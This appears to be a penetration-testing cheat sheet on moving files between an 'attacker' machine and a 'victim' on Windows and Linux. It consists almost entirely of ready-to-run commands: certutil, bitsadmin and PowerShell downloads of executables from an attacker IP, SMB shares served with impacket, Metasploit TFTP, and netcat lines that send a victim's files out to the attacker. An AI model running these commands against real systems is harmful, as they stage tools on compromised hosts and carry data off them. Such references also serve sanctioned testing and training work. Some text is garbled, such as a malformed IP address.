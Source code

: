 Windows File Transfer
======================

IWR (Invoke-Web Request)
------------------------

Attacker: python -m SimpleHTTPServer 80

Victim: 
nc -lvp 4444
powershell.exe -command iwr -Uri http://192.168.1.2/putty.exe -OutFile C:\Temp\putty.exe "
dir

powershell.exe iwr -uri 192.168.1.2/putty.exe -o C:\Temp\putty.exe

powershell
iwr -uri 192.168.1.2/putty.exe -o C:\Temp\putty.exe
dir

Certutil
--------

Attacker Machine: We can use the same SimpleHTTP Server on port 80 on the attacker machine to send the file from that directory.

Victim Machine: Make use of the following command to download the file from the attacker machine. For the command, you have mentioned the ip-address/file “and then the output file name. The -f in the command generally forces overwrite.

certutil -urlcache -f http://192.168.1.2/putty.exe putty.exe
or
certutil -urlcache -split -f http://192.168.1.2/putty.exe putty.exe

Bitsadmin
----------

bitsadmin /transfer job https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe C:\Temp\putty.exe

Curl
----
Attacker Machine: We can use the same SimpleHTTP Server on port 80 on the attacker machine to send the file from that directory.

Victim Machine: On the victim machine, run the following command to download the file from the attacker machine.

curl http://192.168.1.2/putty.exe -o putty.exe
dir

Wget
----
Attacker Machine: Run the SimpleHTTP Server on port 80 on the attacker machine to send the file from that directory.

Victim Machine: Open Powershell on the windows machine and run the following command. Mention the path to download the file from and then give the output path to save the file putty.exe.

powershell 
wget http://192.168.1.2/putty.exe -OutFile putty.exe
dir

powershell.exe wget http://192.168.1.2/putty.exe -OutFile putty.exe

Powershell
-----------

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/putty.exe', 'putty.exe')

dir

SMB Server Impacket-Smbserver
------------------------------

Attacker Machine: On the attacker, the machine goes to the directory from which the file is to be transferred. Then let’s make use of Impacket-smbserver to share this file from the local machine.
Note: Impacket provides low-level programming access to some packets for certain protocols in the network.
(Run SMB oneliner instead of python server)

impacket-smbserver share $(pwd) -smb2support

impacket-smbserver share /root/Downloads/test -smb2support

Victim Machine:
copy \\192.168.1.2\share\putty.exe
dir
or
net use \\192.168.1.2\share
net use
copy \\192.168.1.2\share\putty.exe
dir

*Using a different Operating system where Impacket is not installed by default----

Attacker Machine: On the attacker, the machine goes to the directory from which the file is to be transferred.
Install: https://www.hackingarticles.in/impacket-guide-smb-msrpc/

python3 smbserver.py share /root/test -smb2support

Victim Machine:

copy \\192.168.1.2\share\putty.exe
dir

TFTP
-----
Open Metasploit
use auxiliary/server/tftp
set srvhost IP
set tftproot "file path /root/file.txt"
exploit

Victim Machine:
tftp -i 192.168.1.2 GET file.txt

FTP (When file name is known only)

Victim Machine:
ftp 192.168.1.5 
get file.txt
dir

LINUX File Transfer
=====================

PHP Web-Server
---------------

Attacker Machine: php -S 0.0.0.0:8080

Victim Machine: On the victim machine’s web browser 
IE: 192.168.1.6:8080/putty.exe

Apache
-------

Attacker Machine: before transferring file through web directories and then move any file into the HTML directory to share it. Then restart the apache service.

root@kali[/Download/Test]- cp putty.exe /var/www/html
service apache2 restart

Victim Machine:
192.168.1.6/putty.exe

Simple HTTP server
-------------------

python -m SimpleHTTPServer
python3 -m http.server 8000

Victim Machine:
192.168.q.6:8000

Curl
-----
curl -O http://192.168.1.6/putty.exe

Wget
-----
wget 192.168.1.6/putty.exe

Netcat
-------
Attacker
nc -lvp 5555 > file.txt
Victim
nc 192.168.1.6 5555 < file.txt

SCP
----
Attacker Machine:
scp file.txt kali@192.168.1.6:/tmp

Victim:
cd /tmp
cat file.txt

SMB-Client
-----------

Attacker
smbclient -L 192.168.1.21 -U raj%123
victim
smbclient  //192.168.1.21/share -U raj%123

Meterpreter
------------

Attacker Machine:
meterpreter> download file.txt /root/Desktop/

FTP
----
Attacker Machine:
pip install pyftpdlib
python3 -m pyftpdlib -p 21 -u jeenali -P 123

Victim Machine:
ftp 192.168.1.5

or browser ftp://192.168.1.5

















































